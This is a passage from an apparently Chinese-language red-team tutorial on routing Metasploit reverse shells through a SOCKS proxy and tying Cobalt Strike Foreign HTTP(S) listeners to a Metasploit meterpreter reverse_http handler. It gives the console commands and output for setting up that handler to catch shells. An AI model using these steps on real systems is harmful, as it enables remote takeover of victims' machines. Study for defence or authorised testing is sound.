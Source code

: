 如果还想 MSF 通过 Socks 代理获取 Shell，需要开启 `ReverseAllowProxy` 选项。

```plaintext
msf6 > setg ReverseAllowProxy true
ReverseAllowProxy => true
```

临时无需代理可以用 unsetg 取消 MSF 全局代理。

```plaintext
unsetg Proxies
```

后面 MSF 直接运行 Explit 利用程序就能获取 Shell。

#### MSF 本地 SSH 动态端口转发 CS Foreign HTTP(S) 监听器流量

Listener 设置 Payload 为 Foreign HTTP(S)，主机填 Server 地址。

![监听器 Payload 查看.png](assets/1698895384-7f25b5cae2bf4d6e4fe5e9c80db9801f.png)

MSF 设置 Payload 与 CS 中对应：

-   windows/foreign/reverse\_http -> windows/meterpreter/reverse\_http
-   windows/foreign/reverse\_https -> windows/meterpreter/reverse\_https

本地 MSF 设置完 run 起来监听 MSF 本地地址和端口，等待 Shell 连接。

```plaintext
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lhost 1.1.1.1
msf6 exploit(multi/handler) > set lport 1111
msf6 exploit(multi/handler) > run

[*] Stared HTTP reverse handler on http://1.1.1.1:1111
```
